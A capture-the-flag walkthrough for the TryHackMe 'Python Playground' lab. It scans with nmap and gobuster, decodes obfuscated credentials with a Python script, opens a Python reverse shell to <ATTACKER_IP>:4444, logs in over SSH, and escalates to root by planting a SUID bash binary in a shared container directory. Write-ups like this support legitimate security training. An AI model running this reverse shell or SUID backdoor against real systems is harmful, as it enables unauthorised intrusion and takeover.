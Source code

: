 # [Python Playground](https://tryhackme.com/room/pythonplayground)

## Be creative!

# Hack it!

## Jump in and grab those flags! They can all be found in the usual places.

### What is flag 1?

_Exploit the web app._

1. Perform network scan to identify open ports and services

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Search for hidden directories and files on the web server
   - We are looking for `admin.html`

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

[SCREEN02]

3. Analyze JavaScript code in `view-source:http://<TARGET_IP>/admin.html` to decode obfuscated credentials
   - Credentials are: `connor:spaghetti1245`

```python
def decode_custom_hash(encoded_text):
    int_array = [ord(char) - ord('a') for char in encoded_text]
    result = ''

    for i in range(0, len(int_array), 2):
        charcode = int_array[i] * 26 + int_array[i + 1]
        result += chr(charcode)

    return result

hash_value = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'

first_decode = decode_custom_hash(hash_value)
password = decode_custom_hash(first_decode)
print(f'Password: {password}')
```

[SCREEN03]

4. Log in with extracted credentials, and navigate to `http://<TARGET_IP>/super-secret-admin-testing-panel.html`

5. Set up netcat listener on attack machine

```bash
nc -lvnp 4444
```

6.  Use the Python execution capability to establish a connection back to the attack machine

```python
import	socket,os,subprocess

s=socket.socket()
s.connect(('<ATTACKER_IP>',4444))
[os.dup2(s.fileno(),i) for i in range(3)]
subprocess.call('/bin/sh')
```

7. Improve shell functionality for better interaction

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

8. Navigate to home directory and read the first flag

```bash
cd
cat flag1.txt
```

[SCREEN04]

---

### What is flag 2?

_You're going to need to get some credentials._

1. Use previously obtained credentials to establish SSH connection

```bash
ssh connor@<TARGET_IP>
# password: spaghetti1245
cat flag2.txt
```

[SCREEN05]

---

### What is flag 3?

1. Leverage writable shared directory between containers for privilege escalation
   - The `/var/log` directory appears to be mounted as `/mnt/log` with different permissions on another system

```bash
# From root@playgroundweb container - Create and set permissions for backdoor binary
touch /mnt/log/bash
chmod 777 /mnt/log/bash

# From connor@pythonplayground - Copy bash binary to shared location
cp /bin/bash /var/log/bash

# From root@playgroundweb container - Set SUID bit on the binary
chmod +s /mnt/log/bash

# From connor@pythonplayground - Execute SUID bash with preserved privileges
/var/log/bash -p
whoami
cat /root/flag3.txt
```

[SCREEN06]
